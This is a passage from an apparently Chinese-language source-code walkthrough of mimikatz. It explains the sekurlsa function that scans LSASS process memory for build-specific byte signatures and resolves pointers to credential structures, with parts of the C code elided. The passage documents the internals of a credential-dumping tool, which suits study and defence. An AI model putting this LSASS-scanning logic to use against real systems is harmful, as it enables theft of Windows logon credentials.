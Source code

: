 跟进 `kuhl_m_sekurlsa_utils_search_generic()` 函数：

- sekurlsa\\kuhl\_m\_sekurlsa\_utils.c

```c++
BOOL kuhl_m_sekurlsa_utils_search_generic(PKUHL_M_SEKURLSA_CONTEXT cLsass, PKUHL_M_SEKURLSA_LIB pLib, PKULL_M_PATCH_GENERIC generics, SIZE_T cbGenerics, PVOID * genericPtr, PVOID * genericPtr1, PVOID * genericPtr2, PLONG genericOffset1)
{
    KULL_M_MEMORY_ADDRESS aLsassMemory = {NULL, cLsass->hLsassMem}, aLocalMemory = {NULL, &KULL_M_MEMORY_GLOBAL_OWN_HANDLE};
    KULL_M_MEMORY_SEARCH sMemory = {{{pLib->Informations.DllBase.address, cLsass->hLsassMem}, pLib->Informations.SizeOfImage}, NULL};
    PKULL_M_PATCH_GENERIC currentReference;
    #if defined(_M_X64)
        LONG offset;
    #endif
    //  根据 cLsass->osContext.BuildNumber 的版本号选择 LsaSrvReferences 中的特征码条目
    if(currentReference = kull_m_patch_getGenericFromBuild(generics, cbGenerics, cLsass->osContext.BuildNumber))
    {
        aLocalMemory.address = currentReference->Search.Pattern;
        if(kull_m_memory_search(&aLocalMemory, currentReference->Search.Length, &sMemory, FALSE))
        {
            aLsassMemory.address = (PBYTE) sMemory.result + currentReference->Offsets.off0; // optimize one day
            // ......
        #elif defined(_M_X64)
            aLocalMemory.address = &offset;
            if(pLib->isInit = kull_m_memory_copy(&aLocalMemory, &aLsassMemory, sizeof(LONG)))
                *genericPtr = ((PBYTE) aLsassMemory.address + sizeof(LONG) + offset);
        #elif defined(_M_IX86)
            // ......
        #endif

            if(genericPtr1)
            {
                aLsassMemory.address = (PBYTE) sMemory.result + currentReference->Offsets.off1;
            #if defined(_M_ARM64)
                // ......
            #elif defined(_M_X64)
                aLocalMemory.address = &offset;
                if(pLib->isInit = kull_m_memory_copy(&aLocalMemory, &aLsassMemory, sizeof(LONG)))
                    *genericPtr1 = ((PBYTE) aLsassMemory.address + sizeof(LONG) + offset);
            #elif defined(_M_IX86)
                // ......
            #endif
            }

            if(genericPtr2)
            {
                aLsassMemory.address = (PBYTE) sMemory.result + currentReference->Offsets.off2;
            #if defined(_M_ARM64)
                // ......
            #elif defined(_M_X64)
                aLocalMemory.address = &offset;
                if(pLib->isInit = kull_m_memory_copy(&aLocalMemory, &aLsassMemory, sizeof(LONG)))
                    *genericPtr2 = ((PBYTE) aLsassMemory.address + sizeof(LONG) + offset);
            #elif defined(_M_IX86)
                // ......
            #endif
            }
        }
    }
    return pLib->isInit;
```